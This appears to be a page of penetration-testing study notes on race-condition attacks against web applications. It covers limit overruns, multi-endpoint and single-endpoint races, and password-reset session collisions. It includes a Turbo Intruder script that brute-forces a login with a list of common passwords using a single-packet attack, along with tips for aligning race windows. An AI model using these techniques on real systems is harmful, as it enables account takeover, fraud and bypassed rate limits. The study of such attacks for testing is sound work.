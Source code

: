 
# Content
- [Methodology](#methodology)
- [Limit overrun race conditions](#limit-overrun-raceconditions)
- [Multi-endpoint race conditions](#multi-endpoint-race-conditions)

## Methodology
#### 1 - Predict potential collisions
- Is this endpoint security critical ?
- Is there any collision potential ?

#### 2 - Probe for clues
- Benchmark the normal behavior
- Benchmark the upnormal behavior

#### 3 - Prove the concept


## Limit overrun race conditions
The most well-known type of race condition enables you to exceed some kind of limit imposed by the business logic of the application. 


**EX:** 
- Redeeming a gift card multiple times
- Rating a product multiple times
- Withdrawing or transferring cash in excess of your account balance
- Reusing a single CAPTCHA solution
- Bypassing an anti-brute-force rate limit

### Detecting and exploiting limit overrun race conditions with Burp Repeater and turpo intruder 
- For HTTP/1, it uses the classic last-byte synchronization technique.
- For HTTP/2, it uses the single-packet attack technique

#### Burp Repeater
- Identify a single-use or rate-limited endpoint that has some kind of security impact or other useful purpose.
- Issue multiple requests to this endpoint in quick succession to see if you can overrun this limit.


#### turpo intruder 
script example
```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords =[
    "123123",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000"
]
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race conditions
sending requests to multiple endpoints at the same time 

**EX:**


classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page. 

![race-conditions-basket-adjustment-race](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ca6050dd-4a6a-4a2c-99f3-b5943b9ff1a4)

In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed. 

#### Aligning multi-endpoint race windows Problems and Solutions

- **Delays introduced by network architecture**
```
Connection warming:

Back-end connection delays don't usually interfere with race condition attacks because they typically delay parallel requests equally, so the requests stay in sync.

you can try adding a GET request for the homepage to the start of your tab group with to ohter endpoints to test , then using the Send group in sequence (single connection) option. 

If the first request still has a longer processing time, but the rest of the requests are now processed within a short window
```

- **Delays introduced by endpoint-specific processing**
```
Abusing rate or resource limits :

Web servers often delay the processing of requests if too many are sent too quickly.

By sending a large number of dummy requests to intentionally trigger the rate or resource limit, you may be able to cause a suitable server-side delay.

This makes the single-packet attack viable even when delayed execution is required.  
```

![race-conditions-abusing-rate-or-resource-limits](https://github.com/kiro6/penetration-testing-notes/assets/57776872/75b44be3-ff28-42f9-a554-2e20fd9dde12)


## Single-endpoint race conditions
Sending parallel requests with different values to a single endpoint can sometimes trigger powerful race conditions. 

**EX:**

![race-conditions-password-reset-collision](https://github.com/kiro6/penetration-testing-notes/assets/57776872/c11c30f8-2ba6-491d-866a-f3887c8ad0a6)

## Partial construction race conditions

the final state when all operations are complete:
- session['reset-user'] = victim
- session['reset-token'] = 1234

The session now contains the victim's user ID, but the valid reset token is sent to the attacker. 
